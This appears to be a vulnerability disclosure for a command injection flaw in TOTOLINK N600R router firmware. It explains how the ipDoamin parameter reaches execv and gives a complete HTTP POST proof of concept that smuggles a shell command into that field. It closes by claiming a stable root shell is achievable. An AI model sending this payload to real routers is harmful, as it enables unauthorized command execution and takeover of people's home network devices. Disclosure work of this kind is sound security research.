


# TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version


Figure 1 shows the latest firmware Ba of the router

## Vulnerability details



The content obtained by the program through the ipdoamin parameter is passed to V6, and then the matched content is passed to V8 through the sprintf function, and then V8 is brought into the cstesystem function


At this time, corresponding to the parameter A1, the function assigns A1 to the array of V9, and finally executes the command through the execv function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/adm/status.asp?timestamp=1647872753309
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setDiagnosisCfg",
"ipDoamin":"test.com$(ls>/tmp/5.txt;)"}
```

The reproduction results are as follows:



Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
